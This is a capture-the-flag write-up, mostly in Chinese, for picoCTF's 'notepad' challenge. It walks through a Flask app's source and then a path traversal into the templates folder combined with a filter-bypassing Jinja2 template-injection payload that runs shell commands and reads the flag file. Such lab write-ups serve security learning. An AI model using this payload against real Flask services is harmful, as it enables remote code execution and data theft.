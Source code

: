# notepad 50
>This note-taking site seems a bit off.
notepad.mars.picoctf.net
Hint 1  
It's weird that I can't note ..\templates\errors\
Hint 2  
Jinja2 is a good templating engine and I believe it must be perfectly safe!
## ErrorAttempt 1
``` python
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
```
看到限制了content的长度和'_'，猜测是写文件shell  
url_fix(content[:128])取了前128个字符，但是特殊的字符(@ $ _ #)经过url_fix会变成三个字符的urlencodeing，得到的长度可以达到384个字符，超过了Linux的文件名最长256的限制。  
合理构造输入可以顶掉后边的-{token_urlsafe(8)}.html，如 **'a'\*250+"1.php"+"-{token_urlsafe(8)}.html"** 就会变成 **'a'\*250+"1.php"**  
但是结果是一直500，可能是这个框架并不会写入超过长度限制的文件，而是直接返回异常。

## Explore
Hint 1，传入
>..\templates\errors\  

发现并没有被过滤，404是因为我们在static目录下，寻找templates目录。  
通过首页正常的错误代码可以访问到error下的文件，且error页面会被render_template加载
```python
def index():
    return render_template("index.html", error=request.args.get("error"))
```
百度到Flask有SSTI的风险，也可以  
Hint 2，Google搜索
>render_template Jinja2 SSTI

在 [Server Side Template Injection with Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) 找到了很多注入的原理和绕过的姿势  
## Exploitation
直接用上边链接的RCE代码
```
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('ls')['read']()}}
```
传入
```
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('ls')['read']()}}
```
返回
>..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaapp.py flag-c8f5526c-4122-4578-96de-d7dd27193798.txt static templates

读flag
```
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt')['read']()}}
```
得到flag